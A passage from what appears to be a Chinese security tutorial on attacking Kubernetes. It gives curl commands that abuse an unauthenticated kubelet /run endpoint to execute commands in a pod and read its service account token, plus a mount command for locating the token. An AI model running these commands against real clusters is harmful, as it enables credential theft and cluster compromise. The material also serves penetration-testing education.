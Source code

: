 [![](assets/1701826061-799b7ab4a0bc9c25778f1d366a82c891.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170909-285474fe-7316-1.png)  
Step 4：检索 Token 信息  
默认情况下 Token 保存在/var/run/secrets/kubernetes.io/serviceaccount/token

```bash
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1701826061-9beb164180755f7c1f7468c5bc81c202.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170949-3ff2c61a-7316-1.png)  
如果 token 不在/var/run/secrets/kubernetes.io/serviceaccount/token，那么可以通过 mount 命令来查找

```bash
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=mount"
```
